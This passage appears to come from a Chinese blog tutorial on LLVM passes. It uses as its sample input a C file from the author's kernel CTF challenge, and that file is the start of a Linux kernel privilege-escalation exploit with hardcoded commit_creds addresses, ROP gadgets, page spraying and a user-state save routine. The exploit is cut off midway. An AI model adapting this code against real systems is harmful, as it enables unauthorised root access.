 上面就是LLVM pass的C++代码了。我们需要一个C语言文件，这个文件中的内容无关紧要，这里用笔者做kernel pwn题中的一个文件为例：

firstLLVMtest.c:
```c
//
// Created by root on 22-7-7.
//
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <string.h>
#include <ctype.h>
#include <sys/mman.h>

const size_t commit_creds = 0xFFFFFFFF810C92E0;
const size_t init_cred = 0xFFFFFFFF82A6B700;
const size_t swapgs_restore_regs_and_return_to_usermode = 0xFFFFFFFF81C00FB0 + 0x1B;
const size_t ret = 0xFFFFFFFF810001FC;
const size_t poprdi_ret = 0xffffffff8108c6f0;
const size_t poprsp_ret = 0xffffffff811483d0;
const size_t add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = 0xffffffff810737fe;
long page_size;
size_t* map_spray[16000];
size_t guess;
int dev;

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status();
void print_binary(char*, int);
void info_log(char*);
void error_log(char*);
void getShell();
void makeROP(size_t*);

void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    info_log("Status has been saved.");
}

// this is a universal function to print binary data from a char* array
void print_binary(char* buf, int length){
    int index = 0;
    char output_buffer[80];
    memset(output_buffer, '\0', 80);
    memset(output_buffer, ' ', 0x10);
    for(int i=0; i<(length % 16 == 0 ? length / 16 : length / 16 + 1); i++){
        char temp_buffer[0x10];
        memset(temp_buffer, '\0', 0x10);
        sprintf(temp_buffer, "%#5x", index);
        strcpy(output_buffer, temp_buffer);
        output_buffer[5] = ' ';
        output_buffer[6] = '|';
        output_buffer[7] = ' ';
        for(int j=0; j<16; j++){
            if(index+j >= length)
                sprintf(output_buffer+8+3*j, "   ");
```